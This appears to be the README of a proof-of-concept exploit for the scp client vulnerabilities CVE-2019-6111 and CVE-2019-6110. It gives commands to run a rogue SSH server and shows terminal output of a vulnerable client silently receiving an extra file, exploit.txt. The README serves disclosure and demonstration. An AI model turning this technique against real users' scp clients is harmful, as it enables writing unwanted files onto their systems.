

SSHtranger Things
=================

**Author:**    Mark E. Haase &lt;mhaase@hyperiongray.com&gt;  
**Date:**      2019-01-17  
**CVE:**       [CVE-2019-6111](https://nvd.nist.gov/vuln/detail/CVE-2019-6111), [CVE-2019-6110](https://nvd.nist.gov/vuln/detail/CVE-2019-6110)  
**Advisory:**  https://sintonen.fi/advisories/scp-client-multiple-vulnerabilities.txt  
**Tested on:** Ubuntu 18.04.1 LTS, OpenSSH client 7.6p1  

Demo
----

Discussion
----------

We have nicknamed this "SSHtranger Things" because the bug is so old it could be
exploited by an 8-bit Demogorgon. Tested on Python 3.6.7 and requires `paramiko`
package.

The server listens on port 2222. It accepts any username and password, and it
generates a new host key every time you run it.

    $ python3 sshtranger_things.py

Download a file using a vulnerable client. The local path must be a dot:

    $ scp -P 2222 foo@localhost:test.txt .
    The authenticity of host '[localhost]:2222 ([127.0.0.1]:2222)' can't be established.
    RSA key fingerprint is SHA256:C7FhMqqiMpkqG9j+11S2Wv9lQYlN1jkDiipdeFMZT1w.
    Are you sure you want to continue connecting (yes/no)? yes
    Warning: Permanently added '[localhost]:2222' (RSA) to the list of known hosts.
    foo@localhost's password:
    test.txt                                       100%   32     0.7KB/s   00:00

The file you requested (e.g. `test.txt`) will be saved in your current
directory. If your client is vulnerable, you will have an additional file
`exploit.txt` created in your current directory.

    $ cat test.txt
    This is the file you requested.
    $ cat exploit.txt
    SSHtranger Things

The interesting code is in `ScpServer.send_file()`.
